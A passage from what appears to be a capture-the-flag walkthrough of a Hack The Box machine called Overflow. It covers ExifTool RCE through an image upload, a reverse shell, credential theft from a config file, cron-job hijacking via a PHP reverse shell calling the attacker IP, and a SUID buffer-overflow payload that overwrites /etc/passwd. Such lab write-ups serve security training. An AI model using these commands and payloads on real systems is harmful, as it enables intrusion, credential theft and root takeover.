

Let's observe the file upload request:


As we can see, It validates the image using ```Exiftool 11.92```, We can use  [CVE-2021-22204-exiftool](https://github.com/convisolabs/CVE-2021-22204-exiftool) to get RCE.

Cloning the repository, edit the file ```exploit.py``` with our IP/port and run it to create ```image.jpg``` file which contains a reverse shell.

```console
┌─[user@parrot]─[/hackthebox/Overflow/CVE-2021-22204-exiftool]
└──╼ $ python3 exploit.py
    1 image files updated
```

And by uploading the image we get a reverse shell as ```www-data```:
```console
┌─[user@parrot]─[/hackthebox/Overflow]
└──╼ $ nc -lvp 9091
listening on [any] 9091 ...
connect to [10.10.14.14] from overflow.htb [10.10.11.119] 45736
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ls /home
developer tester
```

By enumerating we found the following file which contains the credentials of ```developer``` user:
```console
$ pwd
pwd
/var/www/html/config
$ cat db.php
cat db.php
<?php 

#define('DB_Server', 'localhost');
#define('DB_Username', 'root');
#define('DB_Password','root');
#define('DB_Name', 'Overflow');

$lnk = mysqli_connect("localhost","developer", "sh@tim@n","Overflow");
$db = mysqli_select_db($lnk,"Overflow");

if($db == false){
    dir('Cannot Connect to Database');
}

?>
```

### User 2

Let's use those credentials ```developer:sh@tim@n``` to log in using SSH:
```console
┌─[user@parrot]─[/hackthebox/Overflow]
└──╼ $ ssh developer@overflow.htb
developer@overflow.htb's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Apr  3 01:57:08 IST 2022

  System load:  0.0               Processes:           171
  Usage of /:   47.7% of 5.84GB   Users logged in:     0
  Memory usage: 16%               IP address for eth0: 10.10.11.119
  Swap usage:   0%


0 updates can be applied immediately.


-sh: 28: set: Illegal option -o history
-sh: 1: set: Illegal option -o history
$
```

By enumerating we found the following file on ```/opt```:
```console
$ ls -ltr /opt
total 8
-rwxr-x---+ 1 tester tester  109 May 28  2021 commontask.sh
drwxr-x---+ 2 root   root   4096 Sep 17  2021 file_encrypt
$ cat /opt/commontask.sh
#!/bin/bash

#make sure its running every minute.


bash < <(curl -s http://taskmanage.overflow.htb/task.sh)
```

We can see the ```tester``` user running this file every minute.

We need to create a vhost ```taskmanage``` or find another way to make this URL works.

By observing the file ```/etc/hosts``` we can see the following permission:
```console
$ ls -ltr /etc/hosts
-rwxrw-r-- 1 root network 201 Apr  3 02:20 /etc/hosts
```

And by checking our groups we can see we are on ```network``` group meaning that we can change this file:
```console
$ groups
developer network
```

Let's create a PHP reverse shell on file ```task.sh``` on ```/var/www/html/``` with user ```www-data```:
```console
$ pwd   
pwd
/var/www/html
$ cat task.sh
cat task.sh
php -r '$sock=fsockopen("10.10.14.14",4444);exec("/bin/sh -i <&3 >&3 2>&3"); ?>'

```
Now, we need add the domain ```taskmanage.overflow.htb``` to ```/etc/hosts```:
```console
$ cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	overflow	overflow.htb taskmanage.overflow.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```

Listening on port ```4444```:
```console
┌─[user@parrot]─[/hackthebox/Overflow]
└──╼ $ nc -lvp 4444
listening on [any] 4444 ...

```

And we get a reverse shell as ```tester```:
```console
┌─[user@parrot]─[/hackthebox/Overflow]
└──╼ $ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.14] from overflow.htb [10.10.11.119] 46606
/bin/sh: 0: can't access tty; job control turned off
$ whoami
tester
$ cat user.txt
52929ac3aab038f0388d0619919177f7
$ 
```

And we get the user flag ```52929ac3aab038f0388d0619919177f7```.

### Root

By enumerating we found the following file ```/opt/file_encrypt/file_encrypt``` with SUID permission, Let's run it:
```console
$./file_encrypt 
This is the code 1804289383. Enter the Pin: 1111
Wrong Pin
```	

By decompiling the binary (Using [Ghidra](https://github.com/NationalSecurityAgency/ghidra)/[Binary Ninja](https://binary.ninja/)) we can see the following ```main``` function:
```c
undefined4 main(void)

{
  check_pin();
  return 0;
}
```

Where ```check_pin()``` is:
```c
void check_pin(void)
{
  undefined local_2c [20];
  int local_18;
  long local_14;
  int local_10;
  
  local_10 = rand();
  local_14 = random();
  printf("This is the code %i. Enter the Pin: ",local_10);
  __isoc99_scanf("%i",&local_18);
  if (local_14 == local_18) {
    printf("name: ");
    __isoc99_scanf("%s",local_2c);
    puts(
        "Thanks for checking. You can give your feedback for improvements at developer@overflow.htb"
        );
  }
  else {
    puts("Wrong Pin");
  }
  return;
}
```

If we are running the binary few times we can see the return value from ```rand()``` is the same (no seed).

So we need to find the value of ```local_14```, We can do it using ```gdb```, Let's set a breakpoint on the ```if``` statement:
```console
gef➤  disassemble check_pin 
Dump of assembler code for function check_pin:
   0x56555ab0 <+0>:	push   ebp
   0x56555ab1 <+1>:	mov    ebp,esp
   0x56555ab3 <+3>:	push   ebx
   0x56555ab4 <+4>:	sub    esp,0x24
   0x56555ab7 <+7>:	call   0x56555720 <__x86.get_pc_thunk.bx>
   0x56555abc <+12>:	add    ebx,0x24e4
   0x56555ac2 <+18>:	call   0x565556b0 <rand@plt>
   0x56555ac7 <+23>:	mov    DWORD PTR [ebp-0xc],eax
   0x56555aca <+26>:	sub    esp,0xc
   0x56555acd <+29>:	push   DWORD PTR [ebp-0xc]
   0x56555ad0 <+32>:	call   0x5655581d <random>
   0x56555ad5 <+37>:	add    esp,0x10
   0x56555ad8 <+40>:	mov    DWORD PTR [ebp-0x10],eax
   0x56555adb <+43>:	sub    esp,0x8
   0x56555ade <+46>:	push   DWORD PTR [ebp-0xc]
   0x56555ae1 <+49>:	lea    eax,[ebx-0x22a8]
   0x56555ae7 <+55>:	push   eax
   0x56555ae8 <+56>:	call   0x565555e0 <printf@plt>
   0x56555aed <+61>:	add    esp,0x10
   0x56555af0 <+64>:	sub    esp,0x8
   0x56555af3 <+67>:	lea    eax,[ebp-0x14]
   0x56555af6 <+70>:	push   eax
   0x56555af7 <+71>:	lea    eax,[ebx-0x2283]
   0x56555afd <+77>:	push   eax
   0x56555afe <+78>:	call   0x565556c0 <__isoc99_scanf@plt>
   0x56555b03 <+83>:	add    esp,0x10
   0x56555b06 <+86>:	mov    eax,DWORD PTR [ebp-0x14]
   0x56555b09 <+89>:	cmp    DWORD PTR [ebp-0x10],eax
   0x56555b0c <+92>:	jne    0x56555b4a <check_pin+154>
   0x56555b0e <+94>:	sub    esp,0xc
   0x56555b11 <+97>:	lea    eax,[ebx-0x2280]
   0x56555b17 <+103>:	push   eax
   0x56555b18 <+104>:	call   0x565555e0 <printf@plt>
   0x56555b1d <+109>:	add    esp,0x10
   0x56555b20 <+112>:	sub    esp,0x8
   0x56555b23 <+115>:	lea    eax,[ebp-0x28]
   0x56555b26 <+118>:	push   eax
   0x56555b27 <+119>:	lea    eax,[ebx-0x233d]
   0x56555b2d <+125>:	push   eax
   0x56555b2e <+126>:	call   0x565556c0 <__isoc99_scanf@plt>
   0x56555b33 <+131>:	add    esp,0x10
   0x56555b36 <+134>:	sub    esp,0xc
   0x56555b39 <+137>:	lea    eax,[ebx-0x2278]
   0x56555b3f <+143>:	push   eax
   0x56555b40 <+144>:	call   0x56555640 <puts@plt>
   0x56555b45 <+149>:	add    esp,0x10
   0x56555b48 <+152>:	jmp    0x56555b5c <check_pin+172>
   0x56555b4a <+154>:	sub    esp,0xc
   0x56555b4d <+157>:	lea    eax,[ebx-0x221d]
   0x56555b53 <+163>:	push   eax
   0x56555b54 <+164>:	call   0x56555640 <puts@plt>
   0x56555b59 <+169>:	add    esp,0x10
   0x56555b5c <+172>:	nop
   0x56555b5d <+173>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x56555b60 <+176>:	leave  
   0x56555b61 <+177>:	ret    
gef➤  b *check_pin+89
```

We set a breakpoint on the ```if``` statment which is ```0x56555b09 <+89>:	cmp    DWORD PTR [ebp-0x10],eax```, Let's run it:
```console
gef➤  r
Continuing.
This is the code 1804289383. Enter the Pin: 1  

Breakpoint 1, 0x56555b09 in check_pin ()

[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1       
$ebx   : 0x56557fa0  →  0x00002ea8
$ecx   : 0xffffcb81  →  0xacf7dd00
$edx   : 0xffffd004  →  0x00000001
$esp   : 0xffffcff0  →  0xf7fa5000  →  0x001e4d6c
$ebp   : 0xffffd018  →  0xffffd028  →  0x00000000
$esi   : 0xf7fa5000  →  0x001e4d6c
$edi   : 0xf7fa5000  →  0x001e4d6c
$eip   : 0x56555b09  →  <check_pin+89> cmp DWORD PTR [ebp-0x10], eax
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
───────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcff0│+0x0000: 0xf7fa5000  →  0x001e4d6c	 ← $esp
0xffffcff4│+0x0004: 0xf7fe3230  →   push ebp
0xffffcff8│+0x0008: 0x00000000
0xffffcffc│+0x000c: 0xf7df7bde  →   add esp, 0x10
0xffffd000│+0x0010: 0xf7fa53fc  →  0xf7fa6a40  →  0x00000000
0xffffd004│+0x0014: 0x00000001
0xffffd008│+0x0018: 0xf3e6d338
0xffffd00c│+0x001c: 0x6b8b4567
─────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0x56555afe <check_pin+78>   call   0x565556c0 <__isoc99_scanf@plt>
   0x56555b03 <check_pin+83>   add    esp, 0x10
   0x56555b06 <check_pin+86>   mov    eax, DWORD PTR [ebp-0x14]
 → 0x56555b09 <check_pin+89>   cmp    DWORD PTR [ebp-0x10], eax
   0x56555b0c <check_pin+92>   jne    0x56555b4a <check_pin+154>
   0x56555b0e <check_pin+94>   sub    esp, 0xc
   0x56555b11 <check_pin+97>   lea    eax, [ebx-0x2280]
   0x56555b17 <check_pin+103>  push   eax
   0x56555b18 <check_pin+104>  call   0x565555e0 <printf@plt>
─────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "file_encrypt", stopped 0x56555b09 in check_pin (), reason: BREAKPOINT
───────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x56555b09 → check_pin()
[#1] 0x56555b82 → main()
────────────────────────────────────────────────────────────────────────────────────────────
gef➤  

```

Now let's observe the value on ```[ebp-0x10]``` (which is ```local_14```):
```console
gef➤  p $ebp-0x10
$1 = (void *) 0xffffd028
gef➤  x/d 0xffffd028
0xffffd028:	-202976456
```

We can see the value is ```0xf3e6d338```, which is ```-202976456``` (as int).

Let's run the binary again:
```console
┌─[user@parrot]─[/hackthebox/Overflow]
└──╼ $ ./file_encrypt 
This is the code 1804289383. Enter the Pin: -202976456
name: 
```

We found the PIN, Now let's observe again on ```check_pin```:
```c
void check_pin(void)
{
  undefined local_2c [20];
  int local_18;
  long local_14;
  int local_10;
  
  local_10 = rand();
  local_14 = random();
  printf("This is the code %i. Enter the Pin: ",local_10);
  __isoc99_scanf("%i",&local_18);
  if (local_14 == local_18) {
    printf("name: ");
    __isoc99_scanf("%s",local_2c);
    puts(
        "Thanks for checking. You can give your feedback for improvements at developer@overflow.htb"
        );
  }
  else {
    puts("Wrong Pin");
  }
  return;
}
```

We can see that ```local_2c``` size is ```20``` bytes (no buffer length check on ```scanf```), We have a classic [buffer overflow](https://ctf101.org/binary-exploitation/buffer-overflow/).

By observing the rest of the code we found also ```encrypt``` function:
```c
void encrypt(char *__block,int __edflag)
{
  int iVar1;
  int *piVar2;
  char *pcVar3;
  undefined4 local_98 = 0;
  undefined4 local_94 = 0;
  undefined4 local_90 = 0;
  undefined4 local_8c = 0;
  undefined4 local_88 = 0;
  undefined4 local_84 = 0;
  undefined4 local_80 = 0;
  undefined4 local_7c = 0;
  undefined4 local_78 = 0;
  undefined4 local_74 = 0;
  stat local_70;
  uint local_18;
  FILE *local_14;
  FILE *local_10;
  
  printf("Enter Input File: ");
  __isoc99_scanf("%s",&local_84);
  printf("Enter Encrypted File: ");
  __isoc99_scanf("%s",&local_98);
  iVar1 = stat((char *)&local_84,&local_70);
  if (iVar1 < 0) {
    piVar2 = __errno_location();
    pcVar3 = strerror(*piVar2);
    fprintf(stderr,"Failed to stat %s: %s\n",&local_84,pcVar3);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (local_70.st_uid == 0) {
    fprintf(stderr,"File %s is owned by root\n",&local_84);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  sleep(3);
  local_10 = fopen((char *)&local_84,"rb");
  if (local_10 == (FILE *)0x0) {
    piVar2 = __errno_location();
    pcVar3 = strerror(*piVar2);
    fprintf((FILE *)"cannot open input file %s: %s\n",(char *)&local_84,pcVar3);
  }
  else {
    local_14 = fopen((char *)&local_98,"wb");
    if (local_14 == (FILE *)0x0) {
      piVar2 = __errno_location();
      pcVar3 = strerror(*piVar2);
      fprintf((FILE *)"cannot open output file %s: %s\n",(char *)&local_98,pcVar3);
      fclose(local_10);
    }
    else {
      while( true ) {
        local_18 = _IO_getc((_IO_FILE *)local_10);
        if (local_18 == 0xffffffff) break;
        _IO_putc(local_18 ^ 0x9b,(_IO_FILE *)local_14);
      }
      fclose(local_10);
      fclose(local_14);
    }
  }
  return;
}
```

We need to insert two values, the first is the file we want to encrypt and the second is the encrypted file name.

If the input file is owned by root (If we want to print the root flag/root SSH private key) it's failed.

We need to ```jump``` to ```encrypt``` function from ```check_pin``` function.

We need to overwrite the return address from ```check_pin``` with the address of ```encrypt``` function, we can do it using the buffer overflow.

Let's find the offset between ```name``` buffer to ```EIP```.

Let's add a breakpoint after the ```scanf``` of ```name```:
```console
gef➤  disassemble check_pin 
Dump of assembler code for function check_pin:
   0x56555ab0 <+0>:	push   ebp
   0x56555ab1 <+1>:	mov    ebp,esp
   0x56555ab3 <+3>:	push   ebx
   0x56555ab4 <+4>:	sub    esp,0x24
   0x56555ab7 <+7>:	call   0x56555720 <__x86.get_pc_thunk.bx>
   0x56555abc <+12>:	add    ebx,0x24e4
   0x56555ac2 <+18>:	call   0x565556b0 <rand@plt>
   0x56555ac7 <+23>:	mov    DWORD PTR [ebp-0xc],eax
   0x56555aca <+26>:	sub    esp,0xc
   0x56555acd <+29>:	push   DWORD PTR [ebp-0xc]
   0x56555ad0 <+32>:	call   0x5655581d <random>
   0x56555ad5 <+37>:	add    esp,0x10
   0x56555ad8 <+40>:	mov    DWORD PTR [ebp-0x10],eax
   0x56555adb <+43>:	sub    esp,0x8
   0x56555ade <+46>:	push   DWORD PTR [ebp-0xc]
   0x56555ae1 <+49>:	lea    eax,[ebx-0x22a8]
   0x56555ae7 <+55>:	push   eax
   0x56555ae8 <+56>:	call   0x565555e0 <printf@plt>
   0x56555aed <+61>:	add    esp,0x10
   0x56555af0 <+64>:	sub    esp,0x8
   0x56555af3 <+67>:	lea    eax,[ebp-0x14]
   0x56555af6 <+70>:	push   eax
   0x56555af7 <+71>:	lea    eax,[ebx-0x2283]
   0x56555afd <+77>:	push   eax
   0x56555afe <+78>:	call   0x565556c0 <__isoc99_scanf@plt>
   0x56555b03 <+83>:	add    esp,0x10
   0x56555b06 <+86>:	mov    eax,DWORD PTR [ebp-0x14]
   0x56555b09 <+89>:	cmp    DWORD PTR [ebp-0x10],eax
   0x56555b0c <+92>:	jne    0x56555b4a <check_pin+154>
   0x56555b0e <+94>:	sub    esp,0xc
   0x56555b11 <+97>:	lea    eax,[ebx-0x2280]
   0x56555b17 <+103>:	push   eax
   0x56555b18 <+104>:	call   0x565555e0 <printf@plt>
   0x56555b1d <+109>:	add    esp,0x10
   0x56555b20 <+112>:	sub    esp,0x8
   0x56555b23 <+115>:	lea    eax,[ebp-0x28]
   0x56555b26 <+118>:	push   eax
   0x56555b27 <+119>:	lea    eax,[ebx-0x233d]
   0x56555b2d <+125>:	push   eax
   0x56555b2e <+126>:	call   0x565556c0 <__isoc99_scanf@plt>
   0x56555b33 <+131>:	add    esp,0x10
   0x56555b36 <+134>:	sub    esp,0xc
   0x56555b39 <+137>:	lea    eax,[ebx-0x2278]
   0x56555b3f <+143>:	push   eax
   0x56555b40 <+144>:	call   0x56555640 <puts@plt>
   0x56555b45 <+149>:	add    esp,0x10
   0x56555b48 <+152>:	jmp    0x56555b5c <check_pin+172>
   0x56555b4a <+154>:	sub    esp,0xc
   0x56555b4d <+157>:	lea    eax,[ebx-0x221d]
   0x56555b53 <+163>:	push   eax
   0x56555b54 <+164>:	call   0x56555640 <puts@plt>
   0x56555b59 <+169>:	add    esp,0x10
   0x56555b5c <+172>:	nop
   0x56555b5d <+173>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x56555b60 <+176>:	leave  
   0x56555b61 <+177>:	ret    
End of assembler dump.
gef➤  b *check_pin+131
Breakpoint 7 at 0x56555b33
```

Run it again to find the offset:
```console
gef➤  r
This is the code 1804289383. Enter the Pin: -202976456
...
gef➤  c
Continuing.
name: AAAAAAAA
...
gef➤  search-pattern AAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x56559000-0x5657b000), permission=rw-
  0x565595b0 - 0x565595bd  →   "AAAAAAAA\n6\n" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffcff0 - 0xffffcff8  →   "AAAAAAAA" 
gef➤  i f
Stack level 0, frame at 0xffffd020:
 eip = 0x56555b33 in check_pin; saved eip = 0x56555b82
 called by frame at 0xffffd040
 Arglist at 0xffffd018, args: 
 Locals at 0xffffd018, Previous frame's sp is 0xffffd020
 Saved registers:
  ebx at 0xffffd014, ebp at 0xffffd018, eip at 0xffffd01c

```

We can see the ```name``` buffer locate on ```0xffffcff0``` and ```EIP``` on ```0xffffd01c```, The offset is ```44``` bytes
```c
| ... name[20] ... | ..22 bytes ... | ...EIP...
```

Meaning that we need to write 44 bytes of junk and then the address of ```encrypt``` function which is:
```console
gef➤  p encrypt 
$47 = {<text variable, no debug info>} 0x5655585b <encrypt>
```

The [ASLR](https://ir0nstone.gitbook.io/notes/types/stack/aslr) is disabled on the machine, meaning that it's the same address:
```console
$ cat /proc/sys/kernel/randomize_va_space
0
```
So our payload should be ```"A"*44 + address_of_encrypt_function``` (```44``` bytes from the ```name``` buffer to return address and then the return address which is the address of ```encrypt``` function).

We can see on ```encrypt``` function that the "encrypt" algorithm:
```c
...
    else {
      while( true ) {
        local_18 = _IO_getc((_IO_FILE *)local_10);
        if (local_18 == 0xffffffff) break;
        _IO_putc(local_18 ^ 0x9b,(_IO_FILE *)local_14);
      }
      fclose(local_10);
      fclose(local_14);
    }
...
```

The binary XOR each byte from the input file with ```0x9b``` and write it to the output file, Meaning that we can create our ```/etc/passwd``` file to change the group of ```developer``` user to ```root``` group:
```console
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
tester:x:1000:1000:tester,,,:/home/tester:/bin/bash
postfix:x:111:116::/var/spool/postfix:/usr/sbin/nologin
mysql:x:112:118:MySQL Server,,,:/nonexistent:/bin/false
developer:x:0:0::/home/developer:/bin/sh
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
```

We changed the group of ```developer``` user from ```developer:x:1001:1001::/home/developer:/bin/sh``` to ```developer:x:0:0::/home/developer:/bin/sh```.

Now, Let's XOR this file with ```0x9b```:
```python
with open('mypasswd','rb') as pk:
    fbytes = bytearray(pk.read())
    with open('xor_passwd','wb') as wk:
        for i in range(len(fbytes)):
            fbytes[i]^=0x9b
        wk.write(fbytes)
```

Now, let's create the full payload using [pwntools](https://docs.pwntools.com/en/stable/) to file:
```python
from pwn import *

payload = b"-202976456\n" # The PIN code
payload += b"A"*44 # Junk - offset between name buffer to return address
payload += p32(0x5655585b) # Address of encrypt function
payload += b"\n" # New line after the name buffer
payload += b"/tmp/mypasswd\n/etc/passwd\n"

with open('input','wb') as f:
    f.write(payload)

```

Upload ```input``` file and ```mypasswd``` to ```/tmp``` directory:
```console
$ cat /tmp/input
-202976456
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[XUVa
/tmp/mypasswd
/etc/passwd
$ base64 -w0 /tmp/mypasswd
6fT076Hjoauhq6Hp9PTvobTp9PTvobT58vW0+fro85H/+v729PWh46Gqoaqh//r+9vT1obTu6Om06Pny9aG07ujptOj58vW09fT39Pzy9ZH58vWh46Gpoamh+fL1obT58vWhtO7o6bTo+fL1tPX09/T88vWR6OLooeOhqKGooeji6KG0//7tobTu6Om06Pny9bT19Pf0/PL1keji9fih46Gvoa2urqivoeji9fihtPny9aG0+fL1tOji9fiR/Pr2/uih46Guoa2rofz69v7oobTu6Om0/Pr2/uihtO7o6bTo+fL1tPX09/T88vWR9vr1oeOhraGqqaH2+vWhtO366bT4+vjz/rT2+vWhtO7o6bTo+fL1tPX09/T88vWR9+uh46Gsoayh9+uhtO366bTo6/T097T36/+htO7o6bTo+fL1tPX09/T88vWR9vry96HjoaOho6H2+vL3obTt+um09vry96G07ujptOj58vW09fT39Pzy9ZH1/uzooeOhoqGiofX+7OihtO366bTo6/T097T1/uzoobTu6Om06Pny9bT19Pf0/PL1ke7u+Ouh46Gqq6Gqq6Hu7vjrobTt+um06Ov09Pe07u7466G07ujptOj58vW09fT39Pzy9ZHr6fTj4qHjoaqooaqooevp9OPiobT58vWhtO7o6bTo+fL1tPX09/T88vWR7Ozstv/67/qh46GoqKGoqKHs7Oy2//rv+qG07frptOzs7KG07ujptOj58vW09fT39Pzy9ZH5+vjw7uuh46Gor6Gor6H5+vjw7uuhtO366bT5+vjw7uvoobTu6Om06Pny9bT19Pf0/PL1kffy6O+h46Goo6Goo6HW+vL38vX8u9fy6O+71vr1+vz+6aG07frptPfy6O+htO7o6bTo+fL1tPX09/T88vWR8un4oeOhqKKhqKKh8un4/6G07frptOnu9bTy6fj/obTu6Om06Pny9bT19Pf0/PL1kfz1+u/ooeOhr6qhr6qh3PX67+i72e78tsn+6/Tp7/L1/LvI4ujv/va7s/r/9vL1sqG07frptPfy+bT89frv6KG07ujptOj58vW09fT39Pzy9ZH19Pn0/+Kh46Gtrq6or6Gtrq6or6H19Pn0/+KhtPX09f7j8ujv/vXvobTu6Om06Pny9bT19Pf0/PL1keji6O/+9v+29f7v7PTp8KHjoaqrq6Gqq6mh6OLo7/72/7vV/u/s9Onwu9b69fr8/vb+9e+3t7ehtOnu9bTo4ujv/vb/tPX+7/L9obTu6Om06Pny9bT19Pf0/PL1keji6O/+9v+26f7o9Pft/qHjoaqrqqGqq6ih6OLo7/72/7vJ/uj09+3+6be3t6G06e71tOji6O/+9v+06f7o9Pft/qG07ujptOj58vW09fT39Pzy9ZHo4uj39Pyh46Gqq6mhqqutoaG08/T2/rTo4uj39PyhtO7o6bTo+fL1tPX09/T88vWR9v7o6Pr8/vnu6KHjoaqrqKGqq6yhobT19PX+4/Lo7/7176G07ujptOj58vW09fT39Pzy9ZHE+uvvoeOhqquvoa2urqivoaG09fT1/uPy6O/+9e+htO7o6bTo+fL1tPX09/T88vWR9+P/oeOhqquuoa2urqivoaG07frptPfy+bT34/+0obT58vW0/fr36P6R7u7y//+h46Gqq62hqqqroaG06e71tO7u8v//obTu6Om06Pny9bT19Pf0/PL1kf/16Pb66Oqh46Gqq6yhra6uqK+h//Xo9vro6re3t6G07frptPfy+bT28uj4obTu6Om06Pny9bT19Pf0/PL1kff69f/o+Prr/qHjoaqro6GqqqmhobTt+um09/L5tPf69f/o+Prr/qG07ujptOj58vW09fT39Pzy9ZHr9Pf38vX67/6h46GqqquhqqGhtO366bT4+vjz/rTr9Pf38vX67/6htPny9bT9+vfo/pHv/ujv/umh46Gqq6uroaqrq6uh7/7o7/7pt7e3obTz9Pb+tO/+6O/+6aG0+fL1tPn66POR6/To7/3y46HjoaqqqqGqqq2hobTt+um06Ov09Pe06/To7/3y46G07ujptOj58vW09fT39Pzy9ZH24ujq96HjoaqqqaGqqqOh1uLIyte7yP7p7f7pt7e3obT19PX+4/Lo7/7176G0+fL1tP369+j+kf/+7f739Ov+6aHjoauhq6GhtPP09v60//7t/vf06/7pobT58vW06POR6Ojz/6HjoaqroqGtrq6or6GhtOnu9bTo6PP/obTu6Om06Pny9bT19Pf0/PL1kQ==
```

Run it:
```console
$ cat in | /opt/file_encrypt/file_encrypt
Segmentation fault (core dumped)
```

Print ```/etc/passwd``` to validate:
```console
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
